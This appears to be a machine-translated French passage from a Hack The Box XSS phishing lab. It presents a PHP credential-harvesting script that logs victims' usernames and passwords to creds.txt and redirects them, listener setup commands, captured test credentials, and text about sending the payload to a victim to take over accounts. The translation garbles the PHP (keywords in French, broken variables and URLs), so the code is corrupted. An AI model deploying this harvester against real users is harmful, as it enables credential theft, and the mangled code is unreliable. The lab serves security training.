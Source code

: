 Code: php

```
<? Php
if (isset ($ _ get ['username']) && isset ($ _ get ['mot de passe'])) {
     $ file = fopen ("creds.txt", "a +");
     fputs ($ file, "nom d'utilisateur: {$ _get ['username']} | mot de passe: {$ _get ['mot de passe']} \ n");
     En-tête ("Emplacement: http: //server_ip/phishing/index.php");
     fclose (fichier $);
     sortie();
}
?>

```

Maintenant que nous avons notre fichier index.php »prêt, nous pouvons démarrer un serveur d'écoute` php », que nous pouvons utiliser au lieu de l'écouteur de base` NetCat »que nous avons utilisé plus tôt:

```
dsgsec @ htb [/ htb] $ mkdir / tmp / tmpServer
dsgsec @ htb [/ htb] $ cd / tmp / tmpServer
dsgsec @ htb [/ htb] $ vi index.php #at cette étape, nous avons écrit notre fichier index.php
dsgsec @ htb [/ htb] $ sudo php -s 0.0.0.0:80
PHP 7.4.15 Server de développement (http://0.0.0.0:80) a commencé
```

Essayons de vous connecter au formulaire de connexion injecté et voyons ce que nous obtenons. Nous voyons que nous sommes redirigés vers la page d'image d'image d'origine:

![](https://academy.hackthebox.com/storage/modules/103/xss_image_viewer.jpg)

Si nous vérifions le fichier `Creds.txt` dans notre PWNNOX, nous voyons que nous avons obtenu les informations d'identification de connexion:

```
dsgsec @ htb [/ htb] $ CAT Creds.txt
Nom d'utilisateur: test | Passord: tester

```

Avec tout prêt, nous pouvons démarrer notre serveur PHP et envoyer l'URL qui inclut notre charge utile XSS à notre victime, et une fois qu'ils se connectent au formulaire, nous obtiendrons leurs informations d'identification et les utiliserons pour accéder à leurs comptes.